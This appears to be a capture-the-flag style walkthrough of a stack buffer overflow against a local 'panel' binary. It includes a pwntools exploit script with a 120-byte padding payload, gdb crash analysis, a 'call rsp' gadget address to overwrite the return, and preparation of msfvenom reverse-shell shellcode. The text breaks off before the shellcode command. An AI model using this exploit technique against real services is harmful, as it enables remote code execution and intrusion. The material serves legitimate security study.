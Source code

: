 ![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553291846828_image.png)



create exploit.py with editor of choice

    from pwn import *
    
    HOST, PORT = "localhost", 31337
    
    payload = ''
    payload += 'A'*120
    payload += 'BBBB0000'
    payload += 'C'*30
    
    r = remote(HOST, PORT)
    r.recvuntil("=>")
    r.sendline(payload)

`q` gdb && pkill panel && re-launch gdb && `r` to run the binary

execute exploit.py:

    python exploit.py

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553292007657_image.png)


gdb:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553292032047_image.png)


panel binary crashes and we now have control of the RSP to which this is the location we are going to insert our shellcode.

check for a `jmpcall` to see if there is a `jmprsp`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553292177840_image.png)


`call rsp` visualization:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553292350320_image.png)


Next, replace our exploit “BBBB0000” with the address to call rsp “0x400cfb”

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553292597362_image.png)


we now need shellcode in our case we have 120 bytes to use:

Create shellcode with msfvenom:
-types of x64 reverse shells with `msfvenom -l`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553292961989_image.png)


syntax to create shellcode:
